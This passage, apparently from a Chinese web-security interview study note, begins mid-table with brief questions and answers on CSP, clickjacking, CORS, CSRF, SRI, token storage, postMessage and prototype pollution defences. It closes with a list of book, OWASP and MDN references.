| CSP 是什么？ | 资源白名单，限制脚本/接口来源，是 XSS 兜底 |
| 点击劫持怎么防？ | CSP `frame-ancestors` 或 `X-Frame-Options` |
| CORS 配错最危险点？ | 反射任意 Origin + `Allow-Credentials: true` |
| `*` 能配 credentials 吗？ | 不能，浏览器会拒绝带凭证请求 |
| CORS 能防 CSRF 吗？ | 不能，CSRF 不读响应、用普通表单触发，不受同源策略限制 |
| HTTPS 还需 SRI？ | 需要，HTTPS 防链路篡改，SRI 防 CDN 源站被改 |
| token 存哪？ | localStorage（XSS 风险）vs HttpOnly Cookie（CSRF 风险），按场景权衡 |
| 第三方脚本防篡改？ | SRI integrity 哈希 + CSP script-src |
| postMessage 安全？ | 收方校验 origin，发方指定 targetOrigin，不用 `*` |
| 原型链污染？ | 输入含 `__proto__` 被合并进对象，用 `Object.create(null)` / Map / 成熟库防 |

---

## 参考与延伸

- 书籍：《白帽子讲 Web 安全》吴翰清 著（XSS / CSRF 章节的思想来源）
- OWASP Top 10：https://owasp.org/www-project-top-ten/
- CSP 速查（Mozilla）：https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP
- 本仓库相关：`../双Token无感登录方案.md`（token 存储与刷新实战）、`../计算机网络/面试题/https.md`（HTTPS 细节）
